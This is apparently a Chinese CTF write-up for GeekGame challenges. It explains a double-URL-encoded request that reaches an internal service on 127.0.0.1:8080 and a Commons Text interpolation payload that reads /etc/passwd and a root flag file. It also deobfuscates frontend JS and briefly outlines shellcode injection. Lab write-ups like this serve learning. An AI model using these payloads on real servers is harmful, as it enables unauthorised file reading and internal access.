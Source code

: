 ## Flag 2: 访问本机上的 bonus 服务

阅读 8079 端口服务的源码我们发现它会通过一个 `WebClient` 向 8080 发 post 请求, 并且 80 端口的服务会允许经过 url 编码的 `/` 和 `//`:

```java
strictHttpFirewall.setAllowUrlEncodedSlash(true);
strictHttpFirewall.setAllowUrlEncodedDoubleSlash(true);
```

并且 8079 端口的服务会进行 urlDecode, 因此直接将 `http://127.0.0.1:8080` 进行二次编码 (`/` -> `%2f` -> `%252f`) 即可:

https://prob08-iwrahf67.geekgame.pku.edu.cn/admin/http%3A%252f%252f127.0.0.1%3A8080%252fbonus

(这一问一开始老是想着构造 `redirect:http://127.0.0.1:8080`, 忘了是 `WebClient` 来处理请求不应该加 `redirect:` 导致卡了好久)

## Flag 3: 通过 bonus 服务在机器上执行命令

这一问就容易很多了, 毕竟能拿到源码, 这一行已经是贴脸告诉你要去搜什么东西了

```java
if (queryBean.getType().equals("CommonsText")) {
```

而且 google 搜出来的第一篇文章就包含 `${file:utf-8:/etc/passwd}` (至少截至 2022 年 11 月 24 号在我这里是). 于是构造出 url 就可以解了:

https://prob08-iwrahf67.geekgame.pku.edu.cn/admin/http%3A%252f%252f127.0.0.1%3A8080%252fbonus/?type=CommonsText&value=%24%7Bfile%3Autf-8%3A%2Froot%2Fflag3.txt%7D



# 这也能卷

## Flag 1

(本场拿得唯一一个一血, 然后后两问就真的摆大烂了 Doge)

web 前端题拿到之后首先就是 `grep -Ri "flag"`, 发现这么一坨: 

```javascript
const flag0 =
  _0x340c07(0x65d, "aIlf", 0x554, 0x7bc, 0x7c0) +
  _0x340c07(0x522, "mxb3", 0x41a, 0x61d, 0x5ed) +
  _0x476726("Zml(", 0x605, 0x57c, 0x6a1, 0x5a5) +
  _0x476726("UwsG", 0x5d6, 0x5c1, 0x500, 0x601) +
  _0x5e5705("mmNu", 0x1d0, 0x354, 0x339, 0x1d1) +
  _0x476726("][gJ", 0x3b3, 0x4c7, 0x43a, 0x401);
```

抱着试一试的态度把这一坨贴到 console 里. 叮! flag 就出来了.



# 简单题

如果把这题看作一道没有开 NX 保护的 pwn 题, 那它就真的是一道简单题了. 如果你要做一道不开 NX 的 pwn 题, 那么你要做的就是: 1. 把 shellcode 写入内存; 2. 让 `rip` 寄存器指向你的 shellcode. 
